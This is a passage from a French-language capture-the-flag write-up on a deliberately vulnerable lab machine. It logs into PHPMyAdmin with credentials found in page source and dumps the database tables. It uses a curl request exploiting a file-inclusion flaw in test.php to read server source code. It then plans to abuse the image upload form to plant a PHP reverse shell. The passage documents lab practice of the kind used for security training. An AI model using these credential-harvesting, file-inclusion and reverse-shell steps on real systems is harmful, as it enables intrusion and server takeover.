 
## Récupération des identifiants de connexion via PHPMyAdmin

La connexion à PHPMyAdmin est réalisée à l'aide du couple d'identifiants ```billu:b0x_billu``` trouvé dans le code source de la page ```c.php```. Trois tables ```auth```, ```download``` et ```users``` sont dans la base de données ```ica_lab``` !

```console
SELECT * FROM `auth` LIMIT 0, 30
id     uname      pass
1      biLLu      hEx_it

SELECT * FROM `download` LIMIT 0, 30
id     image_name              location
1      Marine ford             images/marine.jpg
2      Luffy fourth gear       images/Gear_Four_luffy.jpg
3      Newgate Vs Teach        images/Newgate_Vs_Teach.jpg
4      straw-hat crew          images/straw_hat_crew.jpg
5      Whitebeard luffy ace    images/Whitebeard_luffy_ace.jpg

SELECT * FROM `users` LIMIT 0, 30

id   name                image                address
1    Jack                jack.jpg             Jack sparrow, Pirate of the caribbean
2    Captain Barbossa    CaptBarbossa.JPG     Captain Barbossa, pirate of the caribbean
```

L'upload d'un webshell via PHPMyAdmin n'a pas fonctionné, il faudra passer par les IHM avec le couple d'identifiants ```biLLu:hEx_it``` !

![Affichage de l'image PHPMyAdmin-webshell.png](images/PHPMyAdmin-webshell.png)

## Formulaire d'upload et dépôt d'un reverse shell

La fonction ```Show Users``` affiche toutes les informations de la table ```users```.

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/show.php"
--snip--
	$run='select * from users ';
--snip--
	   echo '<tr><td>'.$row['id'].'</td><td>'.htmlspecialchars ($row['name'],ENT_COMPAT).'</td><td>'.htmlspecialchars ($row['address'],ENT_COMPAT).'</td><td>
	   <img src="uploaded_images/'.htmlspecialchars ($row['image'],ENT_COMPAT).'" 
	   height=90px width=100px></td></tr>';
--snip--
```

![Affichage de l'image Billubox_panel.png](images/Billubox_panel.png)

La fonction ```Add User``` permet de créer une entrée dans la table ```users``` et surtout d'uploader une image. L'objectif est de détourner la fonction d'upload et de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle.
